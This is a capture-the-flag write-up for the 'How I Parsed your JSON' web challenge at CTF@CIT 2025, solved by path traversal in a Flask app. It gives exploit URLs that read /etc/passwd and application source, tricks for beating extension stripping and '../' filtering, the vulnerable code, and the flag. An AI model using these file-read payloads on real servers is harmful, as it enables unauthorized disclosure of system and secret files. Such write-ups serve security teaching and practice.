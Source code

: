 ```yaml
---
name: How I Parsed your JSON (2025)
event: CTF@CIT CTF 2025
category: Web
description: Writeup for How I Parsed your JSON (Web) - CTF@CIT CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# How I Parsed your JSON

[![](https://img.youtube.com/vi/ZBdApaw0r0M/0.jpg)](https://www.youtube.com/watch?v=ZBdApaw0r0M?t=265 "How I Parsed your JSON (CIT CTF)")

## Description

> "This is the story of how I defined your schema."
>
> The flag is in secrets.txt

## Solution

We are greeted by a `FlaskMyAdmin` page, providing some basic instructions. First, we can make basic queries where the URL looks like `http://23.179.17.40:58004/select?record=*&container=tasks`.

![](images/0.PNG)

Secondly, we have some `Getting Started` instructions.

1. Create a directory called containers
2. Create a file named after your table name (do not include .json)
3. Add your data in valid JSON format

Sounds like we need to modify the URL to create a directory first. I tried some different endpoints and request methods but it all failed. Maybe we can just read files?
{% code overflow="wrap" %}

```
http://23.179.17.40:58004/select?record=*&container=/etc/passwd
```

{% endcode %}

![](images/1.PNG)

Yep! So we can try the `secrets.txt`.
{% code overflow="wrap" %}

```
http://23.179.17.40:58004/select?record=*&container=secrets.txt
```

{% endcode %}

However, it shows `"Invalid query"`, which is probably due to comment on the page `"File extensions will be removed from queries"`.

First, I simply try two extensions, assuming that the first may be stripped but not the second. Actually, it looks good! The output shows `"Results from secrets.txt"` now, rather than `"Results from secrets"`. It still says `"Invalid query"` though 🤔

Maybe we should look for other important files. It's a Flask app, so let's try some common ones. Remember the double extension: `/app/app.py.py`
{% code overflow="wrap" %}

```python
from flask import Flask, render_template, request
import json
import os

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/select')
def select():
    container_name = request.args.get('container')
    record_name = request.args.get('record')

    container_name = clean_container_name(container_name)
    container_path = os.path.join('containers/', container_name)

    try:
        with open(container_path, 'r') as container_file:
            if record_name == '*':
                return_data = container_file.read()
            else:
                json_data = json.load(container_file)
                return_records = [entry.get(record_name) for entry in json_data if record_name in entry]
                return_data = ''.join(f'{r}, ' for r in return_records)[:-2]
    except:
        return_data = 'Invalid query.'

    return render_template('index.html', data=return_data, container=container_name)

def clean_container_name(n):
    n = os.path.splitext(n)[0]
    n = n.replace('../', '')
    return n

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0')
```

{% endcode %}

Notice the code for stripping file extensions and replacing `../`, we can easily bypass that with URL-encoding (`%2e%2e%2f`) or even `..//`

We don't need to though, the flag is in `/app/secrets.txt.txt`

Just visit `http://23.179.17.40:58004/select?record=*&container=/app/secrets.txt.txt`

Flag: `CIT{235da65aa6444e27}`
